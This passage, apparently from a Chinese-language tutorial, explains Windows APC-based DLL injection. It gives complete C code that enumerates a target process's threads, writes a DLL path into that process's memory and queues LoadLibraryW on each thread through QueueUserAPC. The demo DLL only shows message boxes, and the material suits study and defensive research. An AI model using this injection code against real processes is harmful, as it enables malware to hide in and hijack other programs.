  [in] HANDLE    hThread,	// 线程的句柄。 句柄必须具有 THREAD_SET_CONTEXT 访问权限
    // 传递给执行函数的参数
  [in] ULONG_PTR dwData		// 传递给 pfnAPC 参数指向的 APC 函数的单个值。
);
```

所以这里可以将该方法当作进程注入的方法，或者是dll注入的方法。

dll注入方法：第一个参数 传loadlibrary的地址，第二个传递dll的路径。

### 实现代码

注入前提：得给一个注入的机会

- 必须是**多线程环境**下

- 注入的程序必须**会调用那些同步对象**

基本思路：

- 当EXE里某个线程执行到SleepEx()或者WaitForSingleObjectEx()时，系统就会产生一个软中断（或者是Messagebox弹窗的时候不点OK的时候也能注入）。
- **当线程再次被唤醒时，此线程会首先执行APC队列中的被注册的函数。**
- 利用`QueueUserAPC()`在软中断时向线程的APC队列插入一个函数指针，如果我们插入的是Loadlibrary()执行函数的话，就能达到注入DLL的目的。

代码流程：

- 将注入dll的路径写到目标程序中，获得写入的地址。
- 获得loadlibrary的地址。
- 利用`QueueUserAPC()`将loadlibrary注入的目标进程中。
- 目标线程恢复执行，调用APC里的这个loadlibrary，在目标进程中挂载dll。

因为是要通过APC向线程中插入函数，所以需要获得进程中的线程，给每一个线程都插入一下，失败了就继续下一个，比直接定位要方便一些。

获取所有线程：

```c
BOOL GetProcessThreadList(DWORD th32ProcessID, DWORD** ppThreadIdList, LPDWORD pThreadIdListLength)
{
    // 申请空间
    DWORD dwThreadIdListLength = 0;
    DWORD dwThreadIdListMaxCount = 2000;
    LPDWORD pThreadIdList = NULL;
    HANDLE hThreadSnap = INVALID_HANDLE_VALUE;

    pThreadIdList = (LPDWORD)VirtualAlloc(NULL, dwThreadIdListMaxCount * sizeof(DWORD), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pThreadIdList == NULL)
    {
        return FALSE;
    }

    RtlZeroMemory(pThreadIdList, dwThreadIdListMaxCount * sizeof(DWORD));

    THREADENTRY32 th32 = { 0 };

    // 拍摄快照
    hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, th32ProcessID);

    if (hThreadSnap == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }

    // 结构的大小
    th32.dwSize = sizeof(THREADENTRY32);

    //遍历所有THREADENTRY32结构, 按顺序填入数组

    BOOL bRet = Thread32First(hThreadSnap, &th32);
    while (bRet)
    {
        if (th32.th32OwnerProcessID == th32ProcessID)
        {
            if (dwThreadIdListLength >= dwThreadIdListMaxCount)
            {
                break;
            }
            pThreadIdList[dwThreadIdListLength++] = th32.th32ThreadID;
        }
        bRet = Thread32Next(hThreadSnap, &th32);
    }

    *pThreadIdListLength = dwThreadIdListLength;
    *ppThreadIdList = pThreadIdList;

    return TRUE;
}
```

注入过程

```c
#include<Windows.h>
#include<stdio.h>
#include<stdlib.h>
#include<tchar.h>
#include <TlHelp32.h>


/*
* 注意loadlibrary的参数模式和参数的形式，char还是unicode
* 主要dll的绝对路径，不能用中文，同目录也要用绝对路径
*/

#define notePID 23472

LPCWSTR dllpath = L"C:\\Users\\rootkit\\Desktop\\messageboxDll.dll";


//列出指定进程的所有线程, 
BOOL GetProcessThreadList(DWORD** ppThreadIdList, LPDWORD pThreadIdListLength)
{
    // 申请空间
    DWORD dwThreadIdListLength = 0;
    DWORD dwThreadIdListMaxCount = 2000;
    LPDWORD pThreadIdList = NULL;
    HANDLE hThreadSnap = INVALID_HANDLE_VALUE;

    pThreadIdList = (LPDWORD)VirtualAlloc(NULL, dwThreadIdListMaxCount * sizeof(DWORD), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pThreadIdList == NULL)
    {
        return FALSE;
    }

    RtlZeroMemory(pThreadIdList, dwThreadIdListMaxCount * sizeof(DWORD));

    THREADENTRY32 th32 = { 0 };

    // 拍摄快照, 通过第一个参数快照系统中的所有线程，指定进程的快照
    hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, notePID);

    if (hThreadSnap == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }

    // 结构的大小
    th32.dwSize = sizeof(THREADENTRY32);

    //遍历所有THREADENTRY32结构, 按顺序填入数组【有关系统快照中遇到的任何进程的第一个线程的信息。】
    //函数返回的快照的句柄 , 指向 THREADENTRY32 结构的指针
    BOOL bRet = Thread32First(hThreadSnap, &th32);
    while (bRet)
    {
        // 先检查当前线程是不是指定进程下的线程
        if (th32.th32OwnerProcessID == notePID)     
        {
            if (dwThreadIdListLength >= dwThreadIdListMaxCount)
            {
                break;
            }
            pThreadIdList[dwThreadIdListLength++] = th32.th32ThreadID;
        }
        // 遇到的任何进程的下一个线程的信息
        bRet = Thread32Next(hThreadSnap, &th32);
    }

    *pThreadIdListLength = dwThreadIdListLength;
    *ppThreadIdList = pThreadIdList;

    return TRUE;
}


int main()
{
	size_t dwsize = (_tcslen(dllpath) + 1) * sizeof(TCHAR);
	//size_t dwsize = (strlen(dllpath) + 1); //* sizeof(TCHAR);

	// 获取目标进程的句柄，采用打开现有进程的形式
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, notePID);

	// 在目标进程中开辟内存空间，用来存放注入的dll的地址
	LPVOID pRemotebuf = VirtualAllocEx(hProcess, NULL, dwsize, MEM_COMMIT, PAGE_READWRITE);
	printf("[+] VirtualAlloc sucess addr = %p\n", pRemotebuf);

	// 向开辟出来的地址写入dll路径
	WriteProcessMemory(hProcess, pRemotebuf, dllpath, dwsize, NULL);
	printf("[+] WriteProcessMemory sucess write dll path to target memroy \n");

	/*
	* 获取loadlibrary的地址。两种方法
	* 1、直接在本程序获得（在Windows中共享库的地址是一定的）
	* 2、利用PEB计算目标程序的kerneldll地址，复杂但是适合远程
	*/
	HMODULE hMOD = GetModuleHandle(L"kernelbase.dll");
	//HMODULE hMOD = GetModuleHandle(L"kernelbase.dll");
	LPTHREAD_START_ROUTINE pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMOD, "LoadLibraryW");
	printf("[+] GetProcAddress sucess pthreadproc = %p\n", pThreadProc);


	/*  执行dll */
    // 先获得目标进程中的所有线程
    LPDWORD pThreadIdList = NULL;
    DWORD dwThread_ListLength = 0;
    GetProcessThreadList(&pThreadIdList, &dwThread_ListLength);

    // 遍历线程，得机会注入APC
    DWORD fail = 0;
    for (int i = dwThread_ListLength - 1; i >= 0; i--)
    {
        // 打开线程
        HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, pThreadIdList[i]);
        if (hThread)
        {
            // 插入APC, 因为有条件，所以这里不一定都会成功，所以要进行错误准备
            if (!QueueUserAPC((PAPCFUNC)pThreadProc, hThread, (ULONG_PTR)pRemotebuf))
            {
                fail++;
            }
            // 关闭线程句柄
            CloseHandle(hThread);
            hThread = NULL;
        }
    }
    printf("Total Thread: %d\n", dwThread_ListLength);
    printf("Total Failed: %d\n", fail);

    if (fail >= dwThread_ListLength)
    {
        printf("Apc injection is failed\n");
    }


	// 关闭句柄
	CloseHandle(hProcess);
	return 0;
}
```

结果：可以看到该dll已经成功加载到对应进程的内存中了，但是因为我写的dll里有太多的弹窗，可能会卡死，所以能不能弹出来看运气


## 5、其他

上述是常见的一些dll注入的方式，但是还有很多方式可以用来实现这个目的，只需要api可以满足调用`loadlibrary`和带一个参数就可以实现，比如`RtlCreateUserThread`
